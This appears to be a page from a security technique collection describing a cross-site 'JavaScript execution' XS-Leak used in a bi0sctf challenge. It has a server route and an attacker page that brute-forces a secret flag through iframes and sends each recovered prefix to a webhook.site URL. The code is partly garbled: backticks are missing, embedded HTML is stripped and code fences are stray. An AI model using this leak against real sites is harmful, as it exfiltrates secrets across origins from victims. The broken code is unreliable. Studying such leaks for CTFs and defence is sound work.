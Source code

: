 # JavaScript Execution XS Leak


```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get("/guessing", function (req, res) {
  let guess = req.query.guess
  let page = <html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    
                </head>
                hello2

                </html>
  res.send(page)
})
```
```
Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
  <head>
    <script>
      let candidateIsGood = false
      let candidate = ""
      let flag = "bi0sctf{"
      let guessIndex = -1

      let flagChars =
        "_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ"

      // this will get called from our iframe IF the candidate is WRONG
      function foo() {
        candidateIsGood = false
      }

      timerId = setInterval(() => {
        if (candidateIsGood) {
          flag = candidate
          guessIndex = -1
          fetch("https://webhook.site/<yours-goes-here>?flag=" + flag)
        }

        //Start with true and will be change to false if wrong
        candidateIsGood = true
        guessIndex++
        if (guessIndex >= flagChars.length) {
          fetch("https://webhook.site/<yours-goes-here>")
          return
        }
        let guess = flagChars[guessIndex]
        candidate = flag + guess
        let iframe = [/guessing?guess=${encodeURIComponent(
          candidate
        )}](/guessing?guess=${encodeURIComponent(
          candidate
        )})

        console.log("iframe: ", iframe)
        hack.innerHTML = iframe
      }, 500)
    </script>
  </head>
  hello

  
</html>
```
```



